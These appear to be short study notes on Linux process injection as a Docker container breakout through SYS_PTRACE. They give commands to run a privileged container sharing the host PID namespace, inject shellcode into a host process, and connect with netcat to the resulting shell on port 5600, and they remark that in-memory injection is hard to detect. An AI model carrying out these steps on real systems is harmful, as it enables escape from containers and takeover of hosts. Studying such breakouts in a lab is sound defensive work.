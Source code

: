 # Linux Process Injection

- imapct
    - control other process and have same permission as the target process

- Breakout Privileged
    - all
    - actually SYS_PTRACE

- action
    
    (on host)
    - docker run --pid=host --privileged ubuntu:22.04 bash
    - docker cp inject 96f7f14e99ab2:/
    - sudo ./target
    - (in container)
    - ./inject $PID (target PID)
    - nc ip 5600
    
    
- inject and target compile command
    - gcc inject.c -o inject
    - gcc test.c -z execstack -o target

- notice:
    - inject shell code should be modify on different device
    - sample shell code run on linux x86/64 architecture and reflect shell on port 5600

- reference
    - https://0x00sec.org/t/linux-infecting-running-processes/1097

- other
    - since process injection run on memory it hard to be detect